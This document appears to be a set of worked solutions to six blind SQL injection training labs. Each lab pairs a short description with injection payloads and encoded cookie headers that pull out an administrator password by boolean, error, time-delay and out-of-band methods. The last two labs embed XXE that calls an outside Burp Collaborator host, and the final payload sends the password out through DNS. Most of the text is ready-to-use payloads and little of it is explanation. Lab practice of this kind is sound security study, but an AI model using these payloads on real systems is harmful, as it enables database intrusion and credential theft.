 # Blind SQL injection

## Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=d3KGutgKOMjnh4xT
```

Target SQL query:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'd3KGutgKOMjnh4xT'
```

Solution:

```sql
xyz' OR '1'='1
xyz' OR '1'='2
' UNION SELECT username FROM users WHERE username = 'administrator' AND LENGTH(password) > 19--
' UNION SELECT username FROM users WHERE username = 'administrator' AND LENGTH(password) > 20--
' UNION SELECT username FROM users WHERE username = 'administrator' AND SUBSTR(password, §§, 1) > '§§'--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+username+FROM+users+WHERE+username+=+'administrator'+AND+SUBSTR(password,+§§,+1)+>+'§§'--
```

## Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=CFO6j85RorXzU17G
```

Target SQL query:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'CFO6j85RorXzU17G'
```

Solution:

```sql
' UNION SELECT CASE WHEN (username = 'administrator' AND LENGTH(password) > 19) THEN TO_CHAR(1/0) ELSE NULL END FROM users--
' UNION SELECT CASE WHEN (username = 'administrator' AND LENGTH(password) > 20) THEN TO_CHAR(1/0) ELSE NULL END FROM users--
' UNION SELECT CASE WHEN (username = 'administrator' AND SUBSTR(password, §§, 1) = '§§') THEN TO_CHAR(1/0) ELSE NULL END FROM users--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+CASE+WHEN+(username+=+'administrator'+AND+SUBSTR(password,+§§,+1)+=+'§§')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users--
```

## Blind SQL injection with time delays

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

Target cookie request header:

```
Cookie: TrackingId=GozlT53MXFfyOacv
```

Target SQL query:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'GozlT53MXFfyOacv'
```

Solution:

```sql
' || PG_SLEEP(10)--
```

Modified cookie request header:

```
Cookie: TrackingId='+||+PG_SLEEP(10)--
```

## Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=t7j8rI6oMCaPTlEC
```

Target SQL query:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 't7j8rI6oMCaPTlEC'
```

Solution:

```sql
'%3B SELECT CASE WHEN (username = 'administrator' AND SUBSTR(password, §§, 1) = '§§') THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END FROM users--
```

Modified cookie request header:

```
Cookie: TrackingId='%3B+SELECT+CASE+WHEN+(username+=+'administrator'+AND+SUBSTR(password,+§§,+1)+=+'§§')+THEN+PG_SLEEP(5)+ELSE+PG_SLEEP(0)+END+FROM+users--
```

## Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Target cookie request header:

```
Cookie: TrackingId=TGK463hgRPbVUYFr
```

Target SQL query:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'TGK463hgRPbVUYFr'
```

Solution:

```sql
' UNION SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://tfc8d4161a43yingegd9r8gtskyxcgwy01p.burpcollaborator.net/"> %remote;]>'), '/l') FROM dual--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+EXTRACTVALUE(XMLTYPE('<%3Fxml+version%3D"1.0"+encoding%3D"UTF-8"%3F><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3A//tfc8d4161a43yingegd9r8gtskyxcgwy01p.burpcollaborator.net/">+%25remote%3B]>'),+'/l')+FROM+dual--
Cookie: TrackingId=7qoguswvlm7zqjsrl6rzd4zj56bcawvz
```

## Blind SQL injection with out-of-band data exfiltration

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=UvXJQOPrW2sZMTtQ
```

Target SQL query:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'UvXJQOPrW2sZMTtQ'
```

Solution:

```sql
' UNION SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://gl5wgwoxuglwbr0onhix816ngem4at.burpcollaborator.net/"> %remote;]>'), '/a') FROM dual--
' UNION SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT+password+FROM+users+WHERE+username%3D'administrator')||'.gl5wgwoxuglwbr0onhix816ngem4at.burpcollaborator.net/"> %remote;]>'), '/abc') FROM dual--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+EXTRACTVALUE(XMLTYPE('<%3Fxml+version%3D"1.0"+encoding%3D"UTF-8"%3F><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3A//'||(SELECT+password+FROM+users+WHERE+username%3D'administrator')||'.gl5wgwoxuglwbr0onhix816ngem4at.burpcollaborator.net/">+%25remote%3B]>'),+'/abc')+FROM+dual--
```